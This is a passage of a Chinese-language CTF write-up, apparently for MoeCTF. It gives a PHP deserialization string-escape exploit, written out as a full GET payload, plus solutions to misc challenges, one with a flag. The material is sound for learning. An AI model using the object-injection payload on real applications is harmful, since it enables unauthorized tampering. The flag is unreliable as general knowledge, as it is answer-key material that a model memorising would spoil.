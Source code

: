 我这里用第一枪，替换一个逃逸一个字符

关键 payload：`";s:11:"Spear_Owner";s:6:"MaoLei";}` 占 35 格

那就给 35 个第一枪上去 `di_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiang";s:11:"Spear_Owner";s:6:"MaoLei";}`

这里总共 420 格，最后补其句式即可

**EXP：
GET:URL/?chant=o:34:"Omg_It_Is_So_Cool_Bring_Me_My_Flags":2{s:5:"Chant"s:420:"di_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiang";s:11:"Spear_Owner";s:6:"MaoLei";}**

![](https://s2.loli.net/2024/03/07/hLwFTW6SYnQmAU1.png)

> 这里还可以用第七枪，第七枪一次逃逸 5 格
<br>

## misc

###    misc 入门指北

   base64



![](https://s2.loli.net/2024/03/07/lgX2kOVTrIesMS9.png)

**base64解码**

![](https://s2.loli.net/2024/03/07/V32EnUoTMLHvmZP.png)

**moectf{h@v3_fun_@t_m15c_!}**

### 打不开的图片 1

jpg 文件头缺失，exif 隐写，hex



**拿到空文件去 010 看看**

![](https://s2.loli.net/2024/03/07/JkOfbMltdzyZrHm.png)

![](https://s2.loli.net/2024/03/08/ZXg5tv13ydFBkuD.png)

尾巴 FF D9 符合 jpg，考查文件头缺失

补充 jpg 文件头即可
